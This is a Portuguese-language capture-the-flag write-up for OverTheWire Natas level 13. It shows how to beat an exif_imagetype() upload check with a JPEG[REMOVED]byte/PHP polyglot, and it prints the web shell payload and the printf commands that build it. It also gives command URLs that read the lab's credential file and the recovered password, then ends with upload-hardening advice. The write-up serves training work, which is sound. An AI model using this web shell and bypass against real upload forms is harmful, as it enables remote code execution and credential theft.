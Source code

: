 # 🕵️ Natas - Nível 13 (🇧🇷 Português)  
*Data: 04/06/2025*  
*Dificuldade: Média*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é burlar uma validação de tipo de arquivo baseada em "magic bytes" (`exif_imagetype()`) e, combinando com a manipulação de nome de arquivo do nível anterior, alcançar Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas14).  

---

## 🔎 Análise

- A vulnerabilidade de manipulação de nome de arquivo do Natas12 persiste: o nome e a extensão do arquivo a ser salvo são definidos por um campo oculto `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`. Isso permite que um atacante, ao interceptar a requisição HTTP (e.g., via Burp Suite), altere a extensão de .jpg para .php.
  
- Nova Verificação de Segurança: O script PHP agora inclui uma validação `! exif_imagetype($_FILES['uploadedfile']['tmp_name']`.  
  - A função exif_imagetype() lê os primeiros bytes do arquivo (conhecidos como "`magic bytes`" ou "`assinatura`") para determinar se ele corresponde a um formato de imagem válido (JPEG, PNG, GIF, etc.).  
  - Se o arquivo não possuir uma assinatura de imagem reconhecida, exif_imagetype() retorna false, fazendo com que o upload seja rejeitado com a mensagem "File is not an image".  
  - Isso impede o upload direto de um arquivo PHP puro, pois ele não possui magic bytes de imagem.
 
- Para contornar a verificação exif_imagetype(), precisamos criar um arquivo poliglota: um arquivo que seja válido tanto como uma imagem JPEG quanto como um script PHP. A chave para isso é inserir os magic bytes de um arquivo de imagem no topo do nosso código PHP.  
  - O interpretador de imagem exif_imagetype() lerá os magic bytes no início do arquivo e o reconhecerá como uma imagem.  
  - O interpretador PHP, ao executar o arquivo (uma vez que sua extensão tenha sido manipulada para .php, ignorará os magic bytes iniciais (que não são código PHP válido) e começará a interpretar o código PHP a partir da tag <?php.  

---

## 🧱 Etapas

1. Análise do Código Fonte: Confirmar a persistência da vulnerabilidade de `filename` (do Natas12) e identificar a nova validação `exif_imagetype()`.  
2. Preparar o Payload Poliglota: Criar um arquivo que contenha magic bytes de JPEG no início, seguidos pelo nosso shell PHP.
  - Utilizamos o terminal para criar o arquivo, garantindo a inserção correta dos bytes hexadecimais literais e do código PHP. 
  - Nosso payload PHP é `<?php system($_GET["cmd"]); ?>`.  
  - Os magic bytes JPEG são `\xFF\xD8\xFF\xE0` (para JFIF JPEG).  
3. Criar o Arquivo Malicioso via Terminal:  
```bash
  printf '\xFF\xD8\xFF\xE0' > bypass.php  
  printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
  - O primeiro printf cria o arquivo bypass.php com os magic bytes JPEG.  
  - O segundo printf (usando `>>`) anexa o payload PHP logo após os magic bytes, sem sobrescrever.  
4. Iniciar o Upload: No navegador, selecionar o arquivo bypass.php (ou o nome que você deu ao arquivo poliglota) e preparar para fazer o upload.
5. Interceptar e Manipular Requisição: Utilizar uma ferramenta proxy interceptadora (como Burp Suite) para capturar a requisição de upload.  
6. Alterar Extensão: Na requisição interceptada, localizar o parâmetro `filename` (que virá com um valor como [nome_aleatorio].jpg do campo oculto) e alterar sua extensão para `.php` (ex: `[nome_aleatorio].php`).  
7. Reenviar Requisição: Encaminhar a requisição modificada para o servidor. O servidor aceitará o arquivo, pois os magic bytes satisfazem `exif_imagetype()`.
8. Acessar o Shell Web: O servidor retornará o caminho do arquivo (ex: `upload/bldzmc4xs4.php`). Navegar até essa URL.
9. Executar Comandos (RCE): O shell PHP será interpretado. Adicionar o parâmetro `cmd` na URL para executar comandos.  
  - Testar: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=pwd` (retornará `/var/www/natas/natas12/upload`). 
  - Obter a senha do Natas14: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14`.  

---

## 🔑 Senha Encontrada

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

---

## ✅ Conclusão

A exploração do Natas13 foi bem-sucedida ao combinar a manipulação do nome do arquivo (persistente do nível anterior) com uma técnica de criação de arquivo poliglota (JPEG + PHP). A inserção de "magic bytes" de imagem no cabeçalho do nosso shell PHP permitiu que o arquivo passasse pela verificação `exif_imagetype()`, enquanto sua extensão manipulada (`.php`) garantiu que fosse interpretado pelo servidor PHP, resultando em Execução Remota de Código (RCE). Este desafio demonstra a importância de validações de upload robustas e multi-camadas que não se baseiem apenas em magic bytes ou extensões simples.


---

## 🧪 Comandos Utilizados

- Criação do arquivo poliglota `bypass.php` no terminal:
```Bash
printf '\xFF\xD8\xFF\xE0' > bypass.php
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
Obter senha do Natas14: 
```bash
http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14
``` 
---

## 🧠 Observações

- Validação de Tipo de Conteúdo: Confiar apenas em `exif_imagetype()` não é suficiente. É vital verificar não apenas os magic bytes, mas também realizar uma validação mais profunda do conteúdo do arquivo (por exemplo, usando bibliotecas que realmente parseiam a estrutura da imagem e verificam sua integridade).  
- Segurança em Camadas: As validações de upload devem ser em camadas: tipo MIME (verificado via `Content-Type`), extensão (validada por whitelist), magic bytes, e, idealmente, verificação do conteúdo da imagem por uma biblioteca robusta (para evitar polyglots).  
- Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório que não permita execução de scripts e, se possível, servidos via um domínio ou CDN diferente.  
- Princípio do Mínimo Privilégio: Certifique-se de que o usuário sob o qual o servidor web roda tenha as permissões mínimas necessárias, limitando o impacto de um RCE.  

---

<p align="center"> <a href="../Natas12/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas14/Readme-BR.md">Proximo ➡️</a> </p>
